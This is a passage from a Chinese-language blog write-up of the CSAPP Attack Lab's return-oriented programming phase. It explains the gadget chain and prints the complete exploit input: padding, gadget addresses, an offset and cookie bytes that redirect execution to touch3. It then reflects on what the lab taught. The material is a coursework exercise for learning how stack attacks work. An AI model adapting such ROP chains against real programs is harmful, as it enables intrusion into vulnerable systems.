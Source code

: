 完成了`%rdi`和`%rsi`的赋值后，将它们相加，保存在`%rax`中，就是`sval`的地址了。然后将`%rax`传给`%rdi`，作为第一参数调用`touch3`，便可通过测试。数一下从将`%rsp`值传给`%rax`开始，直到`sval`首地址，总共返回了7个gadget，加上偏移值（8字节），和`touch3`返回地址（8字节），共`8 * 9 = 72 = 0x48`字节。因此，偏移值是`0x48`。综上，输入字符串应该如下：

```assembly
# 填充buf，40个字节
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
# movq %rsp, %rax
06 1a 40 00 00 00 00 00
# movq %rax, %rdi
a2 19 40 00 00 00 00 00
# popq %rax
ab 19 40 00 00 00 00 00
# 偏移值
48 00 00 00 00 00 00 00
# movl %eax, %edx
dd 19 40 00 00 00 00 00
# movl %edx, %ecx
34 1a 40 00 00 00 00 00
# movl %ecx, %esi
13 1a 40 00 00 00 00 00
# add_xy
d6 19 40 00 00 00 00 00
# movq %rax, %rdi
a2 19 40 00 00 00 00 00
# touch3
fa 18 40 00 00 00 00 00
# sval的值。它应该和cookie（转换成字符串后）一样
35 39 62 39 39 37 66 61 00
```

我的方法使用了8个gadget，和official solution提到的一样(\*^▽^\*)。不过，我在网上搜索到了[另一种做法](https://blog.csdn.net/lijun538/article/details/50682387)，它使用了一个实验文档没有提到的指令`add $0x37, %al`，给`%rax`（已经提前将`%rsp`值移入）加上了`0x37`。`0x37`就算是偏移值，无需计算。最后，给输入字符串填充无用字符，使得`%rsp+0x37`的地方是`sval`的首地址即可。这种方法只需要3个gadget，而且比我的做法靠谱（能保证最后传给`touch3`的`sval`地址的高32位没有错），所以是一种好得多的方法。

## 总结

这次的Lab要远比Bomb Lab简单……花的时间少一半吧。跟Bomb Lab一样，这次实验的设置也非常酷炫。虽然我知道这些攻击技术在当代已经几乎不起作用了，但还是觉得很牛逼呀(p≧w≦q)。这次实验让我对栈指针和PC指针关系的理解加深了很多。说实话，上了好多年的课，我对stack overflow的理解还停留在数组越界上（可能这就是我为什么那么菜的原因吧……）。CSAPP教的东西真的很实用。尽管我以后基本不会碰汇编代码和机器码（debug得我想哭），但它们对提高C/C++程序员修养非常有帮助。